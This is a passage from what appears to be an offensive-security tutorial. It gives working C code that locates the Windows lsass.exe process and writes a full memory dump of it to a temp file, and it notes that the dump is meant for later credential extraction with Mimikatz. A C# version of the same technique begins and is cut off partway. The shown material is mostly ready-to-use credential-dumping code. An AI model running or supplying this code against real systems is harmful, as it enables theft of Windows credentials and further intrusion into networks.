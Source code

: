 ```c
        return processInfo.th32ProcessID;
    }

    while (Process32Next(processesSnapshot, &processInfo)) {
        if (!strcmp(processInfo.szExeFile, processName)) {
            CloseHandle(processesSnapshot);
            return processInfo.th32ProcessID;
        }
    }

    CloseHandle(processesSnapshot);
    return 0;
}

int main() {
    DWORD processId = FindProcessId("lsass.exe");
    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);

    HANDLE dumpFile = CreateFile("C:\\Windows\\Temp\\lsass.dmp", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    if (processHandle && dumpFile) {
        MiniDumpWriteDump(processHandle, processId, dumpFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
        CloseHandle(dumpFile);
        CloseHandle(processHandle);
    }

    return 0;
}
```

- **Explanation**:
  - This C code locates the `lsass.exe` process by its name, opens it, and creates a memory dump file using `MiniDumpWriteDump`.
  - The dump file (`lsass.dmp`) can be analyzed later with Mimikatz.

#### C# Program Example

Here’s a similar approach using C#:

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("Dbghelp.dll")]
    public static extern bool MiniDumpWriteDump(
        IntPtr hProcess,
        uint ProcessId,
        IntPtr hFile,
        MINIDUMP_TYPE DumpType,
        IntPtr ExceptionParam,
        IntPtr UserStreamParam,
        IntPtr CallbackParam);

    public enum MINIDUMP_TYPE : uint
    {
        MiniDumpWithFullMemory = 0x00000002
    }

    static void Main(string[] args)
```